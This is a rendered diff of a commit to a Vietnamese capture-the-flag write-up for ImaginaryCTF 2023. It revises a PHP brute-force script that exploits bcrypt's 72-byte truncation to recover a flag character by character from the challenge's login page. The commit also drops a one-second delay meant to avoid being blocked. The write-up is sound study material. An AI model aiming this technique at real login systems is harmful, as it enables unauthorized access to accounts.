

Before and after one commit to j1s0o/CTF, a Markdown page: imaginaryctf-2023.md, 2 parts joined by grey strips. Rendered like a GitHub page.

Commit message:
GITBOOK-42: change request with no subject merged in GitBook

`````diff
--- a/imaginaryctf-2023.md
+++ b/imaginaryctf-2023.md
@@ -185,23 +185,24 @@ Sử url thành [http://login.chal.imaginaryctf.org/?688a35c685a7a654abc80f8e123
 
 tiến hành viết code để exploit thôi
 
+````php
 ```php
 <?php
 $url = "http://login.chal.imaginaryctf.org/?688a35c685a7a654abc80f8e123ad9f0";
 
-// Mảng lưu trữ các ký tự đã tìm thấy trong flag, ban đầu là các ký tự đã biết "ictf"
-$secret = ["i", "c", "t", "f"];
+// Biến lưu trữ flag, ban đầu rỗng
+$flag = '';
 
 while (true) {
     // Độ dài của ký tự cần brute force, giả sử flag có độ dài là 71 ký tự
-    $length = 71 - count($secret);
+    $length = 71 - strlen($flag);
 
     // Ký tự "overflow" là ký tự filler (tràn), có thể là bất kỳ ký tự nào
     $overflow = str_repeat("A", $length);
 
     // Duyệt qua các ký tự in được (loại bỏ 6 ký tự cuối)
-    foreach (str_split("{0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!\"#$%&'()*+,-./:;<=>?@[\\]^_`{|}~") as $c) {
-        $guess = $overflow . implode("", $secret) . $c;
+    foreach (str_split("{|}abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!0123456789\"#$%&'()*+,-./:;<=>?@[\\]^_`~") as $c) {
+        $guess = $overflow . $flag . $c;
 
         // Hash password bằng hàm password_hash()
         $hashed_password = password_hash($guess, PASSWORD_BCRYPT);
@@ -229,21 +230,21 @@ while (true) {
 
         // Kiểm tra xem trong response có chuỗi "Welcome admin" hay không
         if (strpos($response, 'Welcome admin') !== false) {
-            // Nếu tìm thấy, thêm ký tự $c vào mảng $secret và tiếp tục vòng lặp
-            $secret[] = $c;
-            echo "[!] found! " . implode("", $secret) . PHP_EOL;
+            // Nếu tìm thấy, thêm ký tự $c vào biến $flag và tiếp tục vòng lặp
+            $flag .= $c;
+            echo "flag :  $flag" . PHP_EOL;
             break;
         } else {
-            echo "trying $c..." . PHP_EOL;
+            echo "flag :  $flag$c" . PHP_EOL;
         }
 
-        // Nghỉ 1 giây để tránh bị chặn
-        sleep(1);
+
     }
 }
 ?>
 
 ```
+````
 
 flag:&#x20;
 
`````
